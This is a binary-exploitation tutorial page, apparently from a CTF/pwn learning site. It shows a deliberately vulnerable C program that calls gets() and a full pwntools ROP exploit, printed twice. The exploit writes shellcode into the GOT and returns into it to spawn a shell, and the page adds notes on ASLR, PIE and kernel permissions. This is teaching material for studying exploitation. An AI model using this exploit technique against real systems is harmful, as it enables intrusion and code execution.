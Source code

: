 # ROP and Shellcode

## Source

{% file src="../../../.gitbook/assets/reliable\_shellcode-32.zip" caption="Reliable Shellcode - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    char buffer[20];

    puts("Give me the input");

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```

Super standard binary.

## Exploitation

Let's get all the basic setup done.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we're going to do something interesting - we are going to call `gets` again. Most importantly, we will tell `gets` to write the data it receives to a section of the binary. We need somewhere both readable and writeable, so I choose the GOT. We pass a GOT entry to `gets`, and when it receives the shellcode we send it will **write the shellcode into the GOT**. Now we know _exactly where the shellcode is_. To top it all off, we set the return address of our call to `gets` to where we wrote the shellcode, perfectly executing what we just inputted.

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])      # Call gets, writing to the GOT entry of puts
rop.raw(elf.got['puts'])       # now our shellcode is written there, we can continue execution from there

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])      # Call gets, writing to the GOT entry of puts
rop.raw(elf.got['puts'])       # now our shellcode is written there, we can continue execution from there

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 64-bit

I wonder what you could do with this.

{% file src="../../../.gitbook/assets/reliable\_shellcode-64.zip" caption="Reliable Shellcode - 64-bit" %}

## ASLR

No need to worry about ASLR! Neither the stack nor libc is used, save for the ROP.

The real problem would be if PIE was enabled, as then you couldn't call `gets` as the location of the PLT would be unknown without a leak - same problem with writing to the GOT.

## Potential Problems

Thank to **clubby789** and **Faith** from the HackTheBox Discord server, I found out that the GOT often has _Executable_ permissions simply because that's the default permissions when there's no NX. If you have a more recent kernel, such as `5.9.0`, the default is changed and the GOT will not have X permissions.

As such, if your exploit is failing, run `uname -r` to grab the kernel version and check if it's `5.9.0`; if it is, you'll have to find another RWX region to place your shellcode \(if it exists!\).

